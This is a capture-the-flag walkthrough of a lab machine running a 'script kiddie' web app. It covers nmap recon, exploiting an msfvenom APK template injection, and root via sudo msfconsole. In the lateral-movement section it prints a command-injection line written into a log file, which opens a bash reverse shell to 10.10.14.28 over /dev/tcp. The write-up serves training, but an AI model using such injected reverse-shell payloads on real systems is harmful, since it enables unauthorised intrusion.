







# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }



- Summary
- Recon
- Exploitation
- Lateral Movement
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Exploit functionality of web app with a APK template command injection attack 
- Use user's shell script to access new user's account
- Escalate privileges with msfconsole


## [](#header-2)Recon:


Our initial nmap scan of running services and safe scripts shows both ssh and a web app running on port 5000.




Navigating to the website we can see what seems to be a script kiddies web app that utilizes common tools(nmap,msfvenom,searchsploit).





## [](#header-2)Exploitation:
After looking into the tools and using google I found that I could use this [exploit](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/) to get a reverse shell on the web server.




From here I used 

```bash
bash -i
```

to get a interactive/better shell.





## [](#header-2)Lateral Movement:

I am able to access the other user on the system "pwn" and find an interesting shell script "scanlosers.sh".





I saw that this script took input from the log located /home/kid/logs/hackers and ran a shell command from that input.


I used the vi editor and input the following command into the log file (emphasis on the 3 spaces) in a way that I would get a reverse shell.


```bash
   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.28/4242 0>&1'   #
```



## [](#header-2)Privilege Escalation:


Priv esc was fairly easy as pwn had privileges to use msfconsole as sudo.

To check if the user can use any commands as sudo use the following command:


```bash
sudo -l
```

From here the path to root is simpley to use the path to metasploit found from the sudo -l command to access the root folder flag.


Also, I highly recommend if you are learning shell commands to head over to [explainshell.com](explainshell.com) as it was extremely helpful with this box and will be in the future (at least for me)


